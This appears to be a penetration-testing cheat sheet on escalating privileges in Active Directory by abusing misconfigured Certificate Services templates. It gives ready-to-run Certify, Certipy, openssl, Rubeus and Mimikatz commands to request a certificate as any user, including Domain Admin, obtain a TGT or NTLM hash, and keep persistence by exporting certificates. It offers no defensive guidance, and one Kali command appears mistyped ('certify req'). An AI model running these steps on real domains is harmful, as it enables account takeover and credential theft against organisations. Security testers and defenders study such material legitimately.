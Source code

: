 # Certificate Services
---

## Vulnerability

Active Directory Certificate Services uses certificate templates that are provided by Microsoft. The purpose of these templates it to be duplicated before configured. It exists misconfigurations in these templates that could be abused if not corrected when configured to escalate your privileges.

## Prerequisites

* Low privileged domain user.

## Exploit

First, list vulnerable certificate templates with [Certify](https://github.com/GhostPack/Certify) for Windows or [Certipy](https://github.com/ly4k/Certipy) for Linux.

```powershell
# From a domain joined computer.
./Certify.exe find /vulnerable

# From Kali Linux.
certipy find -u $Username@$DomainName -p $Password -dc-ip $DomainControllerIP -vulnerable
```

To continue this exploit, previous command should output `[!] Vulnerable Certificates Templates` with following conditions:
* `Certificate Name Flag` must be set to `ENROLLEE_SUPPLIES_SUBJECT` to allow the requestor to provide any Subject Alternative Name.
* `Extended Key Usage` must contain `Client Authentication`.
* `Enrollment Rights` must contain a group in which you have compromised a user.

With all this prerequisites, you can request an authentication certificate for any other domain user, including Domain Admin.

{: .important }
> If you have a foothold in the target domain from a non-joined computer - for example [by passing the ticket](/ad/passtheticket/) -, check [this issue](https://github.com/GhostPack/Certify/issues/13#issuecomment-1716046133) to modify Certify source code to make it work.

```powershell
# Request a certificate for the target user.
# Add /machine if you are logged on as SYSTEM.
./Certify.exe request /ca:$CAName /template:$TemplateName /altname:$TargetUser

# From Kali Linux.
certify req -target-ip $CertificateAuthorityIP -ca $CAName -template $TemplateName -spn $TargetUser@$DomainName -u $Username -p $Password

# Convert the entire certificate (private key + certificate = cert.pem) so it can be used by Rubeus.
# Setup the password you want during the process.
# This step is not needed from Kali Linux since Certipy makes the conversion automatically.
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0

# Then ask a TGT for the target user.
./Rubeus.exe asktgt /user:$TargetUser /certificate:$Base64EncodedCertificate /password:$Password /nowrap

# Even better with Certipy, you can retrieve the NTLM hash of the targeted user.
certipy auth -pfx cert.pfx -username $TargetUser -domain $DomainName -dc-ip $DomainControllerIP
```

## Persistence

Once local administrator - *or Domain Admin* - you can export certificates to authenticate with later. User certificates are valid **1 year** by default, so enjoy it! To list certificates, use [Seatbelt](https://github.com/GhostPack/Seatbelt) or in `Certificates - Current User\Personal\Certificates\`.

```powershell
# List certificates and make sure certificate is used for client authentication.
./Seatbelt.exe Certificates

# Export certificates with Mimikatz (certificate's password is `mimikatz` in this case).
crypto::certificates /export

# Encode exported certificate.
cat cert.pfx | base64 -w 0

# Ask TGT with Rubeus.
./Rubeus.exe asktgt /user:$TargetUser /certificate:$Base64EncodedCertificate /password:mimikatz /nowrap
```